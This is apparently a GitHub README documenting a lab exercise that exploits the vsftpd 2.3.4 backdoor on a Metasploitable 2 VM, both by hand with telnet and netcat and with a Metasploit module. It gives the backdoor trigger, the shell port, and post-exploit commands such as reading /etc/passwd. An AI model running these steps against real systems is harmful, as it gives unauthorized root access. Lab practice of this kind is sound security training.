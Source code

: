
# Manual and Metasploit Exploitation of vsftpd 2.3.4 on Metasploitable 2

## 📌 Overview

This project covers two methods of exploiting the vsftpd 2.3.4 backdoor vulnerability (CVE-2011-2523) on Metasploitable 2. This specific vulnerability is due to a backdoor introduced by a malicious actor in this particular version of vsftpd.

- **Manual exploitation** using basic tools like `telnet` and `netcat`
- **Automated exploitation** using `msfconsole` (Metasploit Framework)

The goal was to gain a deeper understanding of the vulnerability by exploring both methods, ultimately achieving root shell access.

---

## 🛠 Lab Setup

| Component      | Details                                  |
|----------------|-------------------------------------------|
| Attacker VM    | Kali Linux (VirtualBox)                  |
| Target VM      | Metasploitable 2                         |
| Network Mode   | Host-Only Adapter                        |
| Tools Used     | `nmap`, `telnet`, `netcat`, `msfconsole`, `ping` |

---

## 🔍 Exploitation Method 1: Manual (Telnet + Netcat)

### 1. Identify Metasploitable IP Address

```bash
ifconfig
```

![Ping success](meta-ip.png)

---

### 2. Ping from Kali to Confirm Connection

```bash
ping [target IP]
```

![Ping success](ping-kali.png)

---

### 3. Scan Open Ports with Nmap

```bash
nmap -sS -sV [target IP]
```

Result: Port **21/tcp** running `vsftpd 2.3.4`

📸 ![Ping success](nmap-scan.png)

---

### 4. Trigger the Backdoor with Telnet

```bash
telnet [target IP] 21
```

Login:
```
USER test:)
PASS test
```

📸 ![Ping success](closed-by-foreign-host.png)

---

### 5. Connect to the Backdoor with Netcat

```bash
nc [target IP] 6200
```

Run post-exploit commands:
```bash
whoami
uname -a
cat /etc/passwd
```

📸 ![Ping success](root-access-change.png)

---

## ⚡ Exploitation Method 2: Using Metasploit

### 1. Start Metasploit Console

```bash
msfconsole
```

---
![Ping success](msf-1.png)

### 2. Search for the vsftpd Exploit

```bash
search vsftpd
```

Use the backdoor module:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

![Ping success](msf-root-access.png)

---

### 3. Set Target Information

```bash
set RHOST [target IP]
```

![Ping success](msf-root-access.png)

---

### 4. Run the Exploit

```bash
run
```

Successful output:
```
Found shell.
Command shell session 1 opened...
```

![Ping success](root-access-change.png)

---

### 5. Verify Access

```bash
whoami
uname -a
cat /etc/passwd
```

![Ping success](root-access-change.png)

---

## 🧠 Lessons Learned

- Manual exploitation teaches protocol-level logic and networking fundamentals
- Metasploit drastically simplifies the process but understanding the logic behind it is crucial
- Proper network configuration (e.g., NAT vs Host-Only) is critical
- Some backdoors only work **once per boot**, which requires timing or resets

---

## 📸 Screenshot Suggestions

- Metasploitable IP shown via ifconfig
- Successful ping from Kali
- Nmap scan showing port 21
- Telnet trigger session
- Netcat shell session
- Metasploit shell session
- Commands run post-exploit (whoami, etc.)

---

## ✅ Completion Checklist

| Task                          | Status |
|-------------------------------|--------|
| VM Setup                      | ✅     |
| Nmap Scanning                 | ✅     |
| Manual Exploit Triggered      | ✅     |
| Remote Root Shell (manual)    | ✅     |
| Metasploit Exploit Used       | ✅     |
| Root Access Verified          | ✅     |
| Screenshots Captured          | ✅     |
| Writeup Created               | ✅     |

---

## 🔚 Final Thoughts

Both approaches led to full system compromise. The manual method built foundational skills while Metasploit demonstrated how automation accelerates real-world penetration testing. This was a successful offensive security lab that will be used as a portfolio project.
